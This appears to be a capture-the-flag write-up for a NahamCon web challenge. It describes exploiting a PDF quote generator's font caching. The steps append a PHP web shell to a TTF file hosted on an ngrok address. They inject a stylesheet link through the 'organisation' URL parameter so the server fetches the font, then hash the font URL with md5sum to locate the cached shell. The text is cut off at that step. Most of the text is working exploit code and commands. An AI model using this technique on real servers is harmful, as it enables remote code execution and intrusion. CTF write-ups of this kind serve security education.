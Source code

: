 1. We start a web server and ngrok so it's accessible from the outside.

2. We create a malicious ttf file where we insert php code at the bottom of the file that will allow us to execute commands on the server.

    ```php
    $ cat exploit_font. php                                                                            
    � dum1�cmap
            `�,glyf5sc��head�Q6�6hhea��($hmtxD
    ...
    :8L��

    :D

    6                               s
    <?php system($_GET['cmd']); ?>

    ```

3. We set up a custom css file that will be calling our malicious ttf file on our ngrok server.

    ```css
    @font-face {
        font-family:'exploitfont';
        src:url('https://fd9b-2a02-a03f-e416-1500-4555-235b-a2b8-74a7.ngrok-free.app/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
    }
    ```

4. We insert the call (`<link rel=stylesheet href='https://fd9b-2a02-a03f-e416-1500-4555-235b-a2b8-74a7.ngrok-free.app/exploit.css'>`) to our custom css in `quote.php` call:
http://challenge.nahamcon.com:32325/quote.php?organisation=%3Clink%20rel=stylesheet%20href=%27https://fd9b-2a02-a03f-e416-1500-4555-235b-a2b8-74a7.ngrok-free.app/exploit.css%27%3E&email=abc%40xyz.com&small=0&medium=0&large=0


    We can see the request worked as we have two requests in ngrok.
    ```bash
    ngrok                                                                      (Ctrl+C to quit)
        
    Send your ngrok traffic logs to Datadog: https://ngrok.com/blog-post/datadog-logs                            
                                                                            
    Web Interface                 http://127.0.0.1:4040                                                          
    Forwarding                    https://fd9b-2a02-a03f-e416-1500-4555-235b-a2b8-74a7.ngrok-free.app
                                                    
    -------------              
    GET /exploit.css               200 OK                                                                        
    GET /exploit_font.php          200 OK  
    ```

5. Locate our malicious ttf file on the server as it has the format: "name+font_normal_md5(source_url)". We first have to get the md5 hash of our source url.

    ```bash
    $ echo -n https://fd9b-2a02-a03f-e416-1500-4555-235b-a2b8-74a7.ngrok-free.app/exploit_font.php | md5sum
    ca2ef7add169164f27b92b1d24b96853  -
    ```
